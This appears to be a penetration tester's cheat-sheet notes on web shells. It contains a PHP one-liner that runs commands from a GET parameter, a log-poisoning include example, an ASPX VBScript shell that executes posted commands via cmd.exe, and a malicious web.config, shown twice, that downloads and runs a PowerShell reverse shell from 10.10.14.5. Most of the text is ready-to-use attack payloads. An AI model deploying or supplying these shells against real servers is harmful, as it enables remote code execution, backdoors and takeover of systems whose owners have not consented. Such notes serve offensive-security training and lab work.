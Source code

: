 

# PHP Web Shell

[GitHub - epinna/weevely3: Weaponized web shell](https://github.com/epinna/weevely3)
## Example shells:

 `<?php system($_GET[‘commandInjection’]); ?>`
`_/var/log/vsftpd.log&commandInjection=ifconfig
## ZIP Wrapper LFI

[[File include#Unzip File]]

# ASPX

[[Windows ASPX]]

## Generic Reverse Shells

```
' -- create the COM objects that we will be using -- ' Set oScript = Server.CreateObject("WSCRIPT.SHELL") Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK") Set oFileSys = Server.CreateObject("Scripting.FileSystemObject") ' -- check for a command that we have posted -- ' szCMD = Request.Form(".CMD") If (szCMD <> "") Then ' -- Use a poor man's pipe ... a temp file -- ' szTempFile = "C:\" & oFileSys.GetTempName( ) Call oScript.Run ("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True) Set oFile = oFileSys.OpenTextFile (szTempFile, 1, False, 0) End If

```

```
<?xml version="1.0" encoding="UTF-8"?> <configuration> <system.webServer> <handlers accessPolicy="Read, Script, Write"> <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /> </handlers> <security> <requestFiltering> <fileExtensions> <remove fileExtension=".config" /> </fileExtensions> <hiddenSegments> <remove segment="web.config" /> </hiddenSegments> </requestFiltering> </security> </system.webServer> </configuration> <%@ Language=VBScript %> <% call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')") %>
```

## Windows Nishang Shell

See [[Windows#PowerShell]]

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')")
%>
```

